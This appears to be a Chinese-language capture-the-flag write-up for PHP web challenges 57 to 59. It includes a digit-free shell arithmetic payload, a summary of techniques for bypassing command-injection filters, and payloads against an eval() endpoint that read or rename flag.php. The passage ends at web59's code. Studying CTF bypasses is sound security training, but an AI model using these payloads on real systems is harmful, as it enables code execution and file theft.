 > `${_}`:代表上一次命令执行的结果，之前没有命令返回或者执行,结果应该是空,与`""`等价
> `$(())`: 做运算

36取反为-37，所以很容易构造，中间有37个`$((~$(())))`相加，`paylaod：/?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))`

## 29-57总结

> **过滤括号**
>
> `include`+二次传参
>
> **过滤引号：**
>
> 说明函数里不能加参数了，用无参数函数读取文件
>
> **无字母数字：**
>
> 1.位运算符没被过滤，采用位运算构造所需字符
>
> 2.通配符+`/bin`下命令
>
> 3.PHP5+shell(`. /???/????????[@-[]`)
>
> 4.shell里`$(())`

## web58

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

程序执行函数被全部过滤，不能用webshell执行命令，那就用php的函数读取文件，

`payload：c=echo file_get_contents("flag.php");`；

换个姿势，`c=rename('flag.php','1.txt');`，然后直接访问`/1.txt`就行。

## web59

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

